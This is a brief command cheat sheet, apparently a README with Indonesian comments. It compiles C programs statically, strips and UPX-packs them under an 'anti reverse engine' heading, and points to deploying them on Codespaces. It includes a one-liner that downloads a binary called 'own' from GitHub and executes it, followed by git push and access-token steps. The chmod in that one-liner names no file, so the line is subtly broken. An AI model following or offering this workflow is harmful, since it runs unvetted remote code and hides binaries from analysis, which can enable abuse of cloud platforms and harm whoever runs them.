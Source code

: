#compile

gcc -o x x.c

gcc x.c -o x -pthread

gcc x.c -o x -lpthread

apt update && apt install musl musl-dev musl-tools

musl-gcc -static own.c -o own

musl-gcc -static sx.c -o sx

#anti reverse engine

strip --strip-unneeded xgm -o xc_stripped

upx --best xc_stripped -o xgmprotect

custom upx https://github.com/upx/upx

deploy on codespace https://github.com/Khon-tholodon/crotdalam
#execute

wget https://github.com/x011-al/flex-x/raw/refs/heads/main/own && chmod +x && ./own


# upload file ke git

git add namafile

git commit -m "menambahkan file namafile"

Buka GitHub → Settings → Developer settings → Personal access tokens

git remote set-url origin https://x011-al@github.com/x011-al/tesb.git

git push origin main

#gabung commite

git pull origin main --rebase

git push origin main

#replace commite

git push origin main --force




